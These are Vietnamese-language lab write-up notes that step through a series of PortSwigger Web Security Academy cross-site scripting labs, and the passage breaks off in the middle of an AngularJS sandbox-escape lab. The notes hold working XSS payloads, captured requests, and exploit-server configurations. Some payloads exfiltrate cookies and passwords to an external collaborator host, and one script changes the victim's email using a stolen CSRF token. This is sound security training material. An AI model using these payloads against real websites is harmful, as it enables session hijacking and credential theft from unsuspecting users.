

# XSS

# **Lab: Reflected XSS into HTML context with nothing encoded**

[Lab: Reflected XSS into HTML context with nothing encoded | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)

- Thực hiện điều hướng đến chức năng `Search`
    
    
    
- Tại đây, thực hiện chèn script `<script>alert(1)</script>` . Quan sát thấy alert thành công hoàn thành giải lab
    - Payload
        
        ```html
        <script>alert(1)</script>
        ```
        
    - POC
        
        
        

# **Lab: Stored XSS into HTML context with nothing encoded**

[Lab: Stored XSS into HTML context with nothing encoded | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)

- Thực hiện chọn một sản phẩm bất kỳ. Điều hướng đến chức năng comment. Tại đây thực hiện chèn script `<script>alert(1)</script>` vào comment
    - Payload
        
        ```html
        <script>alert(1)</script>
        ```
        
    - POC
        
        
        
- Thực hiện chức năng `Post Comment` . Quan sát thấy alert thành công. Hoàn thành giải lab
    - POC
        
        
        

# **Lab: DOM XSS in `document.write` sink using source `location.search`**

[Lab: DOM XSS in document.write sink using source location.search | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)

- Thực hiện điều hướng đến chức năng `Search`
    - POC
        
        
        
- Khi thực hiện view-source, em thấy có xử lý param đưa vào như sau:
    - Code
        
        ```jsx
        <script>
                                function trackSearch(query) {
                                    document.write('');
                                }
                                var query = (new URLSearchParams(window.location.search)).get('search');
                                if(query) {
                                    trackSearch(query);
                                }
                            </script>
        ```
        
- Bởi vì code nối trực tiếp query không qua xử lý nên em có thể escape như sau:
    - Code
        
        ```jsx
        abcxxxxxxxxxx" onload=alert(1) 
        ```
        
    - POC
        
        
        
- Giải thích: khi truyền payload trên, code render lên sẽ như sau:
    - POC
        
        
        
    - Em đã thử dùng onerror nhưng không được, tuy nhiên onload thì được em nghĩ là src kia không bị lỗi ạ.

# **Lab: DOM XSS in `innerHTML` sink using source `location.search`**

[Lab: DOM XSS in innerHTML sink using source location.search | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)

- Thực hiện điều hướng đến chức năng `Search`.
    
    
    
- Thực hiện truyền payload sau. Quan sát thấy alert và hoàn thành giải lab
    - Payload
        
        ```jsx
        '">
        ```
        
    - Response
        
        
        
        
        
- Đây là đoạn js chứa lỗ hổng
    
    ```jsx
    <script>
        function doSearchQuery(query) {
            document.getElementById('searchMessage').innerHTML = query;
        }
        var query = (new URLSearchParams(window.location.search)).get('search');
        if(query) {
            doSearchQuery(query);
        }
    </script>
    ```
    

# **Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source**

[Lab: DOM XSS in jQuery anchor href attribute sink using location.search source | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink)

- Thực hiện điều hướng đến chức năng `Submit feedback` . Quan sát thấy đường dẫn có param `returnPath` được lấy đẩy vào link của chức năng `Back`
    - POC
        
        
        
- Ở đây, chúng ta có thể gọi scheme `javascript` như sau trong `href` để thực thi
    - Payload
        
        ```jsx
        javascript:alert(1)
        ```
        
    - Response
        
        
        
- Hoàn thành giải lab
    
    
    

# **Lab: DOM XSS in jQuery selector sink using a hashchange event**

[Lab: DOM XSS in jQuery selector sink using a hashchange event | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)

- Thực hiện view source và quan sát thấy có đoạn js sau. Đoạn js thực hiện nhận thay đổi của hash và sử dụng jQuery để tìm kiếm đoạn nào chứa hash đó.
    - Code
        
        ```jsx
        <script>
            $(window).on('hashchange', function(){
                var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
                if (post) post.get(0).scrollIntoView();
            });
        </script>
        ```
        
- Vì trình selector của jQuery có thể coi input vào như selector và tìm kiếm, nhưng cũng có thể coi đó là HTML element ⇒ có thể truyền thẻ HTML để chạy code
- Tuy nhiên, chỉ khi hash thay đổi thì code mới được đưa vào `$()` để parse ⇒ cần làm một cái nào đó tự đổi path ⇒ dùng `iframe` để load sau đó dùng `this.src+=xxxx` để đổi hash đồng thời t truyền chuỗi cộng thêm chính là payload. Nhờ đó chúng ta có payload sau
    - Payload
        
        ```jsx
        <iframe src='https://0aa400230361f1e0804c031c001900a0.web-security-academy.net' onload='this.src+="#"'>
        ```
        
    - Exploit server
        - Header
            
            ```jsx
            HTTP/1.1 200 OK
            Content-Type: text/html; charset=utf-8
            ```
            
        - Body
            
            ```jsx
            <iframe src='https://0aa400230361f1e0804c031c001900a0.web-security-academy.net' onload='this.src+="#"'>
            ```
            
        - Full config
            
            
            
- Thực hiện view exploit, nhận thấy print() được thực hiện
    - POC
        
        
        
- Deliver to victim và hoàn thành giải lab
    
    
    

# **Lab: Reflected XSS into attribute with angle brackets HTML-encoded**

[Lab: Reflected XSS into attribute with angle brackets HTML-encoded | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded)

- Thực hiện điều hướng đến chức năng `Search` . Tại đây thưc hiện truyền payload sau và quan sát thấy các ký tự `<>` đã bị encoded nhưng vẫn escape được dấu `"`
    - Payload
        
        ```jsx
        abc"><script>alert(1)</script>
        ```
        
    - POC
        
        
        
- Chúng ta có thể chỉ dùng event cho thẻ input ⇒ không cần dùng `<>` . Và chúng ta đã escape `"` nên hoàn toàn thêm event được. Payload như sau:
    - Payload
        
        ```jsx
        abc" autofocus="alert(1)
        ```
        
    - POC
        
        
        
- Hoàn thành giải lab
    
    
    

# **Lab: Stored XSS into anchor `href` attribute with double quotes HTML-encoded**

[Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded)

- Thực hiện chọn một sản phẩm, điều hướng đến chức năng comment và comment hợp lệ
    
    
    
- Trong phần mềm Burpsuite, thực hiện bắt request gửi tới API `POST /post/comment` . Thay đổi tham số `website` thành payload dùng scheme `javascript` .
    - Payload
        
        ```jsx
        javascript:alert(1)
        ```
        
    - Request
        
        ```jsx
        POST /post/comment HTTP/2
        Host: 0a6100b3042b106a83784746003900a7.web-security-academy.net
        Cookie: session=tNGHUtQki0BgWL3qHwoomFQflHCeda6q
        User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:149.0) Gecko/20100101 Firefox/149.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: en-US,en;q=0.9
        Accept-Encoding: gzip, deflate, br
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 222
        Origin: https://0a6100b3042b106a83784746003900a7.web-security-academy.net
        Referer: https://0a6100b3042b106a83784746003900a7.web-security-academy.net/post?postId=4
        Upgrade-Insecure-Requests: 1
        Sec-Fetch-Dest: document
        Sec-Fetch-Mode: navigate
        Sec-Fetch-Site: same-origin
        Sec-Fetch-User: ?1
        Priority: u=0, i
        Te: trailers
        
        csrf=4jYdEC17S52SFUSwo8a61nBeNoHEYQgi&postId=4&comment=%27%22%3E%3Cimg+src%3Dx+onerror%3Dalert%28%22cmt%22%29%3E&name=%27%22%3E%3Cimg+src%3Dx+onerror%3Dalert%28%22name%22%29%3E&email=a%40a.com&website=javascript%3aalert(1)
        ```
        
- Thực hiện gửi request, quan sát thấy alert thành công. Hoàn thành giải lab
    
    
    
    
    

# **Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded**

[Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded)

- Thực hiện điều hướng đến chức năng `Search`.
    
    
    
- Tại đây, thực hiện truyền payload sau vào và nhận thấy các ký tự `<>` đã bị encode.
    - Payload
        
        ```jsx
        '">
        ```
        
    - POC
        
        
        
- Tuy nhiên, với vị chí được đẩy vào trong thẻ `<script></script>` thì không cần dấu `<>` mà chỉ cần lệnh là chạy được js. Chúng ta chỉ cần escape dấu `"` và thực hiện chèn lệnh khác bằng payload sau:
    - Payload
        
        ```jsx
        ';alert(1)//
        ```
        
    - POC
        
        
        
- Hoàn thành giải lab
    
    
    

# **Lab: DOM XSS in `document.write` sink using source `location.search` inside a select element**

[Lab: DOM XSS in document.write sink using source location.search inside a select element | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)

- Thực hiện chọn một sản phẩm bất kỳ. Thực hiện view source, quan sát thấy có script sau lấy param `storeId` và đẩy vào source `document.write` .
    - Code
        
        ```jsx
        <script>
            var stores = ["London","Paris","Milan"];
            var store = (new URLSearchParams(window.location.search)).get('storeId');
            document.write('<select name="storeId">');
            if(store) {
                document.write('<option selected>'+store+'</option>');
            }
            for(var i=0;i<stores.length;i++) {
                if(stores[i] === store) {
                    continue;
                }
                document.write('<option>'+stores[i]+'</option>');
            }
            document.write('</select>');
        </script>
        ```
        
- Tại đây, vì mọi thứ đẩy vào trong thẻ `<option></option>` và `<select></select>` sẽ đều bị coi là text ⇒ cần kết thúc sớm hai thẻ này và thêm code alert riêng của chúng ta
    - Payload
        
        ```jsx
        &storeId=</option></select>
        ```
        
    - URL
        
        ```jsx
        <vuln-web url>/product?productId=1&storeId=%3C/option%3E%3C/select%3E%3Cimg%20src=x%20onerror=alert(1)%3E
        ```
        
- Gửi URL trên, alert thành công
    
    
    
- Hoàn thành giải lab
    
    
    

# **Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded**

[Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression)

- Thực hiện sử dụng chức năng `search` với payload sau:
    - Payload
        
        ```jsx
        '">
        ```
        
    - Chức năng
        
        
        
- Thực hiện kiểm tra bằng inspect thì nhận thấy `<>` đã bị encode (bởi vì dấu của chúng ta truyền vào không được hiển thị giống với dấu khác trong src code; nếu kiểm tra bằng view source thì sẽ thấy encode của dấu này) → không thực thi js được. Tuy nhiên lại phát hiện thấy có angular (`ng-app`) → có hướng mới
    - POC
        
        
        
- Truyền payload `{{7*7}}` và nhận thấy ra `49` → input được angular parse
    - Payload
        
        ```jsx
        {{7*7}}
        ```
        
    - POC
        
        
        
- Thực hiện tìm hiểu về angular expression dựa trên bài viết này [https://portswigger.net/research/dom-based-angularjs-sandbox-escapes](https://portswigger.net/research/dom-based-angularjs-sandbox-escapes)
- Cụ thể khi constructor 2 lần thì chúng ta có thể nhận lại được một function
    - Payload
        
        ```jsx
        {{[].constructor.constructor}}
        ```
        
    - POC
        
        
        
- Sau đó thì để thực thi được `alert(1)` chỉ cần truyền payload như sau là gọi được hàm
    - Payload
        
        ```jsx
        {{ [].constructor.constructor('alert(1)')()}}
        ```
        
    - Giải thích: `Function constructor`  khi pass param vào nó sẽ tạo hàm và chạy hàm đó khi constructor được theo MDN
        
        
        
- Thực hiện truyền payload trên, quan sát thấy alert thành công. Hoàn thành giải lab
    - POC
        
        
        

# **Lab: Reflected DOM XSS**

[Lab: Reflected DOM XSS | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected)

- Điều hướng đến chức năng `search` . Thực hiện `search` . Nhạn thấy các ký tự `<>` ở chức năng search đã bị encode
    
    
    
- Thực hiện sửa dụng Burp Invader để tìm các sink source có thể có
    - Config
        
        
        
- Sau đó, chọn stacktrace để tìm đến được source
    - POC
        
        
        
- Thực hiện đọc stack trace suy ra được vị trí lỗi
    - Source: URL [`https://0a5f008e03a198fc81e0664e00970036.web-security-academy.net/`](https://0a5f008e03a198fc81e0664e00970036.web-security-academy.net/) param: `search`
        
        ```jsx
        https://0a5f008e03a198fc81e0664e00970036.web-security-academy.net/?search=abc
        ```
        
    - Sink: hàm `eval`
        
        ```jsx
        eval('var searchResultsObj = ' + this.responseText);
        ```
        
    - POC
        
        
        
- Hàm `eval` sẽ lấy response trả về của request gửi tới API `GET /search-results?search=` và trực tiếp chạy lệnh. Ví dụ, nếu truyền `abc` thì `responseText` sẽ là `{"results":[],"searchTerm":"abc"}` . Với việc sử dụng hàm evil `eval('var searchResultsObj = ' + this.responseText);` thì thực chất evil sẽ thực hiện lệnh sau:
    
    ```jsx
    var searchResultsObj = {"results":[],"searchTerm":"abc"}
    ```
    
- User có thể kiểm soát input truyền vào searchTerm → escape dấu `"` như sau để khiến cho evil thực hiện một câu lệnh js khác
    
    ```jsx
    var searchResultsObj = {"results":[],"searchTerm":"abc";alert(1)//"}
    ```
    
- Để thực hiện điều này, chúng ta chỉ cần truyển phần `abc"};alert(1)//"}` là được. Tuy nhiên, cách làm này không đúng ý vì dấu `"` chúng ta truyền vào tự động bị escape bởi dấu `\` khiến nó chỉ là data text bình thường → cần escape cả dấu `\` của code xử lý thêm vào
    
    
    
- Thực hiện truyền payload mới như sau `abc\"};alert(1)//"}` . Thực hiện trigger thành công. Hoàn thành giải lab
    
    
    
    
    

# **Lab: Stored DOM XSS**

[Lab: Stored DOM XSS | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored)

- Thực hiện xem một sản phẩm bất kỳ.
- Thực hiện comment một bài viết với payload sau, nhận thấy các dấu `<>` đã bị encode
    - Payload
        
        ```jsx
        '">
        ```
        
    - POC
        
        
        
- Tuy nhiên, khi quan sát chúng ta thấy dữ liệu trong response trả về không bị encode ⇒ browser xử lý encode ⇒ đọc js. Thực hiện đọc file js xử lý ở path `/resources/js/loadCommentsWithVulnerableEscapeHtml.js` . Nhận thấy có đoạn `escapeHTML` nhưng chưa xử lý tốt mới chỉ xử lý các dấu `<>` xuất hiện lần đầu
    - Code
        
        ```jsx
        function escapeHTML(html) {
                return html.replace('<', '&lt;').replace('>', '&gt;');
            }
        ```
        
    - POC
        
        
        
- Từ đó xác định được source và sink có lỗi. Thực hiện truyền payload sau và alert thành công. Hoàn thành giải lab
    - Source: param `body` , `name`
    - Sink: chức năng xem comment do không escape đúng
    - Payload
        
        ```jsx
        >><
        ```
        
    - POC
        
        
        

# **Lab: Reflected XSS into HTML context with most tags and attributes blocked**

[Lab: Reflected XSS into HTML context with most tags and attributes blocked | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)

- Em xem solution chỗ làm sau để cho web tự động resize ạ
- Điều hướng đến chức năng `Search` và thực hiện tìm kiếm. Nhận thấy có waf chặn không cho dùng các thẻ như `img` …
    - POC
        
        
        
- Tuy nhiên, sau khi fuzz thì nhận được tag `<body>` cùng với event `onresize()` không bị chặn.
- Để thực hiện onresize một cách tự động, chúng ta có thể để iframe load web và vì chúng ta có thể đổi được size của iframe nên body ở trong cũng bị đổi theo. Thực hiện config exploit server như sau và gửi cho victim
    - Exploit server
        - Header
            
            ```jsx
            HTTP/1.1 200 OK
            Content-Type: text/html; charset=utf-8
            ```
            
        - Body
            
            ```jsx
            <script>
            var abc = function(iframe){
            iframe.style.width = "100px";
            };
            </script>
            <iframe  src="<vuln-web>/?search=<body%20onresize=print()>"  onload="abc(this)">
            
            ```
            
- Thực hiện view exploit, nhận thấy print thành công
    
    
    
- Thực hiện gửi cho victim và hoàn thành giải lab
    
    
    

# **Lab: Reflected XSS into HTML context with all tags blocked except custom ones**

[Lab: Reflected XSS into HTML context with all tags blocked except custom ones | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)

- Thực hiện điều hướng đến chức năng `Search` . Tại đây khi truyền vào payload thì nhận thấy một số tag bị chặn, nhưng một tag là `<xss>` thì không. Ngoài ra, mọi event đều dùng được
- Chúng ta cần phải giúp cho thẻ `<xss>` này có thể focus được vì thẻ này không tự thân nó được nhận được focus ⇒ cần dùng `tabIndex` . Sau đó, cần focus vào nó bằng cách dùng hash. Cuối cùng ra được payload như sau:
    - Payload
        
        ```jsx
        <xss id="xxx" onfocus="alert(document.cookie)" this.tabIndex=1>aaaaaa</xss>#xxx
        ```
        
    - URL
        
        ```jsx
        <vuln-lab url>/?search=<xss id="xxx" onfocus="alert(document.cookie)" this.tabIndex=1>aaaaaa</xss>#xxx
        ```
        
- Để gửi cho victim, chúng ta làm như sau:
    - Exploit server
        - Header
            
            ```jsx
            HTTP/1.1 200 OK
            Content-Type: text/html; charset=utf-8
            ```
            
        - Body
            
            ```jsx
            <script>
            location="https://0ac500f2047a3c7a85f9648b001d00c9.web-security-academy.net/?search=%3Cxss%20id=%22xxx%22%20onfocus=%22alert(document.cookie)%22%20tabIndex=1%20%3Eaaaaaa%3C/xss%3E#xxx"
            </script>
            ```
            
        - Full config
            
            
            
- Thực hiện view exploit và alert thành công
    
    
    
- Gửi victim và hoàn thành giải lab
    
    
    

# **Lab: Reflected XSS with some SVG markup allowed**

[Lab: Reflected XSS with some SVG markup allowed | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)

- Thực hiện điều hướng đến chức năng `Search` . Quan sát chức năng này đã chặn các thẻ html, tuy nhiên vẫn dùng được thẻ `<svg>`, `<image>` và event `onbegin`
- Chain các thẻ lại được payload sau:
    - Payload
        
        ```jsx
        <svg width="300" height="300" viewBox="0 0 300 300">
          <!-- Image to animate -->
          <image id="myImage" href="https://upload.wikimedia.org/wikipedia/commons/thumb/4/47/PNG_transparency_demonstration_1.png/200px-PNG_transparency_demonstration_1.png"
                 x="50" y="50" width="200" height="200">
            <!-- Animate rotation around the center -->
            <animateTransform
              attributeName="transform"
              attributeType="XML"
              type="rotate"
              from="0 150 150"
              to="360 150 150"
              dur="4s"
              repeatCount="indefinite"
              onbegin="alert(1)" />
          </image>
        </svg>
        ```
        
    - URL: thực hiện bỏ khoảng trống và xuống dòng vì path không được quá dài
        
        ```jsx
        <vuln-web url>/?search=%3Csvg%20width%3d%22300%22%20height%3d%22300%22%20viewBox%3d%220%200%20300%20300%22%3E%20%3Cimage%20id%3d%22myImage%22%20href%3d%22https%3a%2f%2fupload.wikimedia.org%2fwikipedia%2fcommons%2fthumb%2f4%2f47%2fPNG_transparency_demonstration_1.png%2f200px-PNG_transparency_demonstration_1.png%22%20%20x%3d%2250%22%20y%3d%2250%22%20width%3d%22200%22%20height%3d%22200%22%3E%20%20%20%20%3CanimateTransform%20%20attributeName%3d%22transform%22%20attributeType%3d%22XML%22%20%20type%3d%22rotate%22%20%20from%3d%220%20150%20150%22%20to%3d%22360%20150%20150%22%20%20dur%3d%224s%22%20%20repeatCount%3d%22indefinite%22%20onbegin%3d%22alert(1)%22%20%2f%3E%3C%2fimage%3E%20%3C%2fsvg%3EteName%3d%22transform%22%20attributeType%3d%22XML%22%20%20type%3d%22rotate%22%20%20from%3d%220%20150%20150%22%20to%3d%22360%20150%20150%22%20%20dur%3d%224s%22%20begin%3d%22click%22%20repeatCount%3d%22indefinite%22%20onbegin%3d%22alert(1)%22%20%2f%3E%3C%2fimage%3E%20%3C%2fsvg%3E
        ```
        
- Thực hiện gửi URL. Nhận thấy alert thành công. Hoàn thành giải lab
    
    
    
    
    

# **Lab: Reflected XSS in canonical link tag**

[Lab: Reflected XSS in canonical link tag | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag)

- Thực hiện view source. Quan sát thấy có tag sau lấy path vào trong attribute `href`
    
    
    
- Thực hiện escape khỏi dấu `'` và vì chúng ta có thể dùng phím tắt nên là thêm thuộc tính `accesskey` cũng như là event `onclick` để alert
- Thực hiện gửi payload sau
    - Payload
        
        ```jsx
        abc=xxx%27accesskey=%27x%27onclick=%27alert(1)
        ```
        
    - URL
        
        ```jsx
        <vuln-lab>/?abc=xxx%27accesskey=%27x%27onclick=%27alert(1)
        ```
        
- Ở đây, nếu chúng ta truyền khoảng trắng thì cũng bị lỗi vì nó sẽ encode `%20`
- Gửi payload, nhấn phím tắt và alert thành công. Hoàn thành giải lab
    
    
    
    
    

# **Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped**

[Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped)

- Thực hiện điều hướng đến chức năng `search` . Tại đây, thực hiện chèn payload `'">` . Quan sát trong response, nhận thấy payload đã bị encode các dấu `<>"` , tuy nhiên ở dưới lại có phần code js đọc lại payload
    - Payload
        
        ```jsx
        '">
        ```
        
    - POC
        
        
        

# **Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped**

[Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped)

- Thực hiện điều hướng đến chức năng `Search` .
    
    
    
- Thực hiện chèn payload sau và nhận thấy các ký tự `<>"` đã bị encode. Còn khi truyền `'` thì trong js đã thực hiện escape bằng dấu `\`
    - Payload
        
        ```jsx
        '">
        ```
        
    - POC
        
        
        
- Như vậy, chúng ta chỉ còn cách khai thác tiếp từ trong js. Ở đây, chúng ta bổ sung `\` để escape dấu escape. Ngoài ra vì dấu `;` không bị encode nên có thể dùng để ngắt lệnh. Và sử dụng thêm `//` để comment đoạn code còn lại. Từ đó suy ra được đoạn payload sau:
    - Payload
        
        ```jsx
        abc\';alert(1);//
        ```
        
    - Kết quả
        
        
        
- Thực hiện alert thành công và hoàn thành giải lab
    
    
    
    
    

# **Lab: Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped**

[Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped)

- Em xem solution chỗ ý tưởng escape các dấu `\'` ạ
- Thực hiện truy cập vào một bài post. Tại đây, thực hiện comment với payload sau thì nhận thấy với ký tự `<>` thì đã bị encode trong html còn trong js các dấu như `\'` đã bị escape
    - POC
        
        
        
- Tuy nhiên, việc encode hay escape là do phía server thực hiện, tức là trên browser sẽ không thực hiện escape ⇒ browser parse HTML encoded nhưng lại không thực hiện escape các dấu sau khi encode ⇒ có thể thoát ra `'` và chèn lệnh
- Thực hiện sử dụng payload sau
    - Payload
        
        ```jsx
        http://a.com&apos;;alert(document.domain)//;
        ```
        
    - Request
        
        ```jsx
        POST /post/comment HTTP/2
        Host: 0a3200a704c12b53810f2a84005a0014.web-security-academy.net
        Cookie: session=Wpi4TG4D9h4n49ca6Z9omvwzznTGwFDB
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 178
        
        csrf=bxeKl4u3U4Ti5CMPZTSymKGALWpenlcM&postId=7&comment=aaaa&name=aaaa&email=aaaaa%40ginandjuice.shop&website=http%3A%2F%2Fa.com%26apos%3B%29%3Balert%28document.domain%29%2F%2F%3B
        ```
        
- Thực hiện gửi request trên, quan sát response trả về khi click đã alert thành công
    
    
    

- Hoàn thành giải lab
    
    
    

# **Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped**

[Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped)

- Thực hiện điều hướng đến chức năng `Search` . Thực hiện chèn payload test thử. Nhận thấy các dấu đặc biệt đã bị encode nhưng khi viewsource, chúng ta thấy payload đã được truyền vào input chứa trong backstick ⇒ có thể thực hiện lệnh trong này
    - POC
        
        
        
- Thực hiện truyền payload sau và có thể alert thành công
    - Payload
        
        ```jsx
        ${alert(1)}
        ```
        
    - Input: param `search`
    - Output: trang chủ
    - POC
        
        
        
- Hoàn thành giải lab
    
    
    

# **Lab: Exploiting cross-site scripting to steal cookies**

[Lab: Exploiting cross-site scripting to steal cookies | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)

- Thực hiện điều hướng đến chức năng comment. Tại đây, nhận thấy input `Comment` có stored xss. Ngoài ra `HttpOnly`  đang được tắt nên có thể lấy được cookie thông qua stored xss
    
    
    
- Thực hiện sử dụng payload sau để lấy cookie của victim
    - Payload
        
        ```jsx
        
        ```
        
    - Request
        
        ```jsx
        POST /post/comment HTTP/2
        Host: 0a2c004a0453cee0811f43f400bb0012.web-security-academy.net
        Cookie: session=eac8gSgrAdPto0xyj1A2kH510ZDb70Ad
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 392
        
        csrf=rUxFW6PioMibZ0aXiFNpf73PNwakV3qP&postId=4&comment=%3cimg%20src%3d%22x%22%20onerror%3d%22this.src%3d'http%3a%2f%2fxlm9h23uaqwolyvslnb1avlhk8qzergf5.oastify.com%2f%3fc%3d'%2bbtoa(document.cookie)%3b%20this.onerror%3dnull%3b%22%3e&name=%27%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E&email=a%40ginandjuice.shop&website=http%3A%2F%2Fa.com%26apos%3B%29%3Balert%28document.domain%29%2F%2F%3B
        ```
        
- Thực hiện gửi request trên, quan sát thấy cookie trả về trong burp collab
    
    
    
- Decode giá trị lấy được, thay vào cookie và hoàn thành giải lab
    - Decoded
        
        
        
    - POC
        
        
        

# **Lab: Exploiting cross-site scripting to capture passwords**

[Lab: Exploiting cross-site scripting to capture passwords | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords)

- Thực hiện điều hướng đến chức năng comment
- Tại đây, thực hiện post comment với nội dung sau:
    - Payload
        
        ```jsx
        <input name=username id=username>
        <input type=password name=password onchange="if(this.value.length)fetch('collab-url',{
        method:'POST',
        mode: 'no-cors',
        body:username.value+':'+this.value
        });">
        ```
        
- Sau đó, khi victim điền password thì sẽ tự động gửi về collab. Lấy được password
    
    
    
- Thực hiện login bằng credential trên thành công. Hoàn thành giải lab
    
    
    
- Giải thích payload
    - Khi victim nhập uname, pwd thì vì ô pwd thay đổi nên sẽ tự động gửi cred
    - Tiếp theo, chúng ta cần thêm mode cors vì sop ngăn ko được gửi request đến domain khác????

# **Lab: Exploiting XSS to bypass CSRF defenses**

[Lab: Exploiting XSS to bypass CSRF defenses | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)

- Thực hiện login vào tài khoản `wiener:peter` . Tại đây, thực hiện điều hướng đến chức năng `My account > Update email`
    
    
    
- Trong phần mềm Burpsuite, thực hiện bắt request gửi tới API `GET /my-account` . Tại đây, quan sát thấy response trả về `csrf` trong thẻ input form
    
    
    
- Quan sát request gửi tới API `POST /my-account/change-email` có body gồm  2 param sau cùng với header như POC
    - POC
        
        
        
- Điều hướng đến chức năng `Post > Comment` . Tại đây, có stored xss ở trường input comment body. Thực hiện chèn script
    - Payload
        
        ```jsx
        <script>
        alert(1);
        async function bruh(){
        const response = await fetch('https://<url>/my-account');
        const html = await response.text();
        
        const parser = new DOMParser();
        const doc = parser.parseFromString(html, 'text/html');
        
        var csrf_token = doc.getElementsByName('csrf')[0].value;
        
        await fetch('https://<url>/my-account/change-email', {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/x-www-form-urlencoded'
                    },
                    body: new URLSearchParams({
                        'csrf': csrf_token,
                        'email': 'hacker@evil-user.net'
                    })
        });
        }
        bruh();
        </script>
        ```
        
    - Lưu ý phần header cần định nghĩa rõ ràng nếu không thì khi request gửi sẽ mặc định encode utf-8 ⇒ không có request đúng ý
- Thực hiện comment và hoàn thành giải lab
    
    
    

# **Lab: Reflected XSS with AngularJS sandbox escape without strings**

[Lab: Reflected XSS with AngularJS sandbox escape without strings | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings)

- Thực hiện điều hướng đến chức năng `Search`
    
    
    
- Tại đây, thực hiện tìm kiếm với chuỗi nào đó và nhận thấy client dùng angular js để parse url
    
    
    
- Thực hiện dùng payload sau để vượt qua sandbox của angular js
    - Payload
        
        ```jsx
        toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
        ```
        
    - URL
        
        ```jsx
